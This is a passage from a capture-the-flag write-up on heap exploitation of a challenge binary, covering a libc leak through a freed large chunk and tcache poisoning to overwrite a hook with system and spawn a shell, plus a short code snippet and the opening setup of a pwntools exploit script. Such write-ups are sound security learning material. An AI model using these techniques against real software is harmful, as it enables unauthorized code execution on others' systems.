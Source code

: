 the small chunk acts as a barrier to separate the huge chunk and the wilderness. this is to prevent the huge chunk to be come consolidated with the wilderness upon free instead of going to the bin.

upon reading the free'd chunk's data, we'll get a libc `main_arena` leak.

```python
alloc(0, 0x500)
alloc(1, 0x10)

free(0)
view(0)
```

the next step is `tcache-poisoning` to get an arbitrary write primitive. I won't go to cover the details cause I've covered this topic in this [writeup](../2023/cigits/afafafaf.md).

to summarize, we'll basically overwrite a free'd chunk's fd so it'll think the next free chunk to be recycle is whatever we overwrite it with. we can then overwrite one of the hooks with system, and run the hook with a chunk that contains `/bin/sh` to gain shell.

<figure><img src="../../.gitbook/assets/image (202).png" alt="" width="529"><figcaption></figcaption></figure>

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
```